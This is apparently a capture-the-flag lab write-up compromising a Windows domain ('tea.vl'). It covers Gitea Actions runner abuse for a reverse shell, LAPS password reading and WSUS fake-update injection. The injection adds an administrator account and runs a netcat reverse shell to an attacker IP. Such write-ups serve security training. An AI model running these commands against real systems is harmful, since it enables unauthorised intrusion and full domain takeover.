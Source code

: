 
![](Tea_Cover.png)


## INFO

```
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tea.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server


[*] Windows Server 2022 Build 20348 x64 (name:SRV) (domain:tea.vl) (signing:False) (SMBv1:False)

PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```

Cool ! SRV got Git-Tea on port 3000. Lets Explore ! 

![](Tea_Web.png)




## GITEA_ACTIONS

Register as normal user , and go to settings . Find Runners in Action Tab.

What are actions ? 
`Gitea doesn't run the jobs itself, but delegates the jobs to runners. The runner of Gitea Actions is called [act runner].`

Simply , Its like cron-jobs , You give set of action / jobs to the runners and on the background it's gonna do the job.


![](Tea_Runner.png)

Now , As there's a action runner , we need to take leverage of that to get a shell on the box. 

In order to do that : 

1--> Create a New-Repository. Then , Go to the settings of the repository and update Enable Repository Actions.

![](Tea_Enable.png)


2 --> Make a new file --> .gitea/workflows/reverse.yaml and commit the change.


![](Tea_Reverse_yaml.png)

```
name: Reverse
run-name: ${{ gitea.actor }} getting reverse shell
on: [push]
jobs:
    Shell:
        runs-on: windows-latest
        steps:
        - name: Reverse_Shell
          run: powershell -e <Reverse-Shell>
```



3 --> Wait for the Runner to complete the action and get the shell.

![](Tea_Runner_Shell.png)


Cool ! We got shell as thomas.wallace. Lets Use a C2 for persistence and proper shell.



## LAPS 

After some enumeration , found that LAPS is installed on the system. 

 [PrivescCheck](https://github.com/itm4n/PrivescCheck) This script would find that !
```
The Local Administrator Password Solution (LAPS) automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
```


Read LAPS Password.
```
PS > Get-LapsADPassword -Identity SRV.tea.vl -AsPlainText
```

![](Tea_Laps.png)

We got clear text password of the Administrator. Login with the administrator password.

```
└─# evil-winrm -i 10.10.213.182 -u administrator -p '3);Ro$4}LH%50K'
```

```
For persistence , we can prevent a machine from updating its password by setting the expiration date into the future.
```



## D.A via WSUS


```
Windows Server Update Services [WSUS], is a computer program and network service that enables administrators to manage the distribution of updates and hotfixes released for Microsoft products to computers in a corporate environment. WSUS downloads these updates from the Microsoft Update website and then distributes them to computers on a network.
```

Simply, It updates and hotfixes all the computers that are managed by WSUS in the network from a single server, so we don't have to visit all the computers and update them one-by-one.


```
.\SharpWSUS.exe inspect
```

![](Tea_Wsus.png)


In this scenario , the WSUS is configured / assigned only to the DC not the SRV where we have admin privilege right now. But as we are administrator we can abuse this. For that we need tools !

-->  [WSUSpendu](https://github.com/alex-dengx/WSUSpendu) and [SharpWSUS](https://github.com/h4rithd/PrecompiledBinaries/tree/main/SharpWSUS). These tools can allow us to distribute fake Windows updates with our set of commands.

--> [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) 

Upload WSUSpendu and Psexec to the victim PC !

```
.\WSUSpendu.ps1 -Inject -PayloadFile C:\users\administrator\documents\PsExec64.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "net user hacker Password123@ /add && net localgroup administrators hacker /add"' -ComputerName dc.tea.vl
```
This tool is gonna approve the req. itself !

Wait for 5 minutes , then login as hacker in the domain controller.

![](Tea_DC_.png)




Same exploit with SharpWSUS.

Request the update.
```
.\SharpWSUS.exe create /payload:"C:\Users\administrator\Documents\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c ' C:\Users\administrator\Documents\nc64.exe -e cmd 10.8.0.148 1337 '" /title:"LocalUpdate"
```

 Approve the request.
```
.\SharpWSUS.exe approve /updateid:1a74db88-3a8a-4cbf-ad39-785c09c4a843 /computername:dc.tea.vl /groupname:"Pwned"
```


The DC's pwned !